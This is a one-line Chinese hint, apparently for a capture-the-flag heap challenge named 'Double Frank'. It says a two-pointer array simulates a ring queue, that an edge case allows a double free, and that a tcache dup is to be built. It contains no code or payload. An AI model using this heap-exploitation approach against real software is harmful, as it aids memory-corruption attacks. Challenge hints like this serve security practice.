Double Frank 提示 双指针数组模拟环状队列;特殊情况Double Free;构造tcache dup  
